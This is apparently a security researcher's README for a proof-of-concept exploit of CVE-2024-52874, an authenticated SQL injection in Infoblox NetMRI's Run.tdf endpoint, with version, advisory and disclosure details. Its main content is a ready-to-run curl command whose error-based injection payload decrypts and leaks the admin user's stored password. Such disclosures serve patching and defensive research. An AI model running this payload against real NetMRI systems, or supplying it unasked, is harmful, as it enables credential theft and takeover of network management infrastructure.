

# CVE-2024-52874: Infoblox NetMRI Authenticated SQL Injection in Run.tdf

## Information
**Description:** This exploits an authenticated SQL injection in the Run.tdf endpoint of Infoblox NetMRI.  
**Versions Affected:** 7.5.4.104695  
**Version Fixed:** 7.6.1  
**Researcher:** Dave Yesland (https://x.com/daveysec)  
**Disclosure Link:** https://rhinosecuritylabs.com/research/infoblox-multiple-cves/  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2024-52874  
**Vendor Advisory:** https://support.infoblox.com/s/article/Infoblox-NetMRI-is-vulnerable-to-CVE-2024-52874

## Proof-of-Concept Exploit
### Description
This exploit uses the Scripts parameter in Run.tdf to leak data via SQL injection.

### Usage/Exploitation
```
curl -k "https://<NETMRI_HOST>/netmri/ccs/tx/run/Run.tdf?Scripts=1+AND+updatexml(rand(),concat(CHAR(126),NetmriDecrypt((select%20PasswordSecure%20from%20skipjack.ACLUser%20where%20UserName=%22admin%22),%22password%22,1),CHAR(126)),null)--"
```

### Screenshot
